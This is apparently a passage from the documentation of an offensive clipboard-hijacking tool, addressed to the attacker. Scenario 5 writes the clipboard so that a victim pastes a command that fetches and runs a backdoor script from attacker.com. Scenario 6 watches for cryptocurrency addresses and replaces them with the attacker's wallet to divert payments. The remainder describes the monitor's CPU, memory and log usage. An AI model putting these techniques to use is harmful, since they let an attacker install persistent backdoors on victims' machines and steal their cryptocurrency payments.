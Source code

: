 
### Scenario 5: Command Injection

```bash
# User about to paste command in terminal

# Inject malicious command
clipboard_set "curl http://attacker.com/backdoor.sh | bash"

# User pastes and executes YOUR command
# Installs persistent backdoor
```

---

### Scenario 6: Crypto Address Swapping

```bash
# Monitor for crypto addresses
clipboard_start

# When detected:
clipboard_get
# Shows: 1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa (victim's address)

# Replace with your address
clipboard_set 1BvBMSEYstWetqTFn5Au4m4GFg7xJaNVN2

# User sends payment to YOUR wallet instead
```

## Performance Optimization

### CPU Usage

- Idle between checks (1 second sleep)
- Minimal processing per check
- String comparison only
- No heavy operations

### Memory Usage

- Last content stored in memory (typically < 1MB)
- Log file on disk
- No buffer accumulation
- Automatic cleanup

### Disk Usage

- One log file per session
- Typical size: 1-10 KB per session
- Can grow to MB with heavy usage
- Old logs manually removed
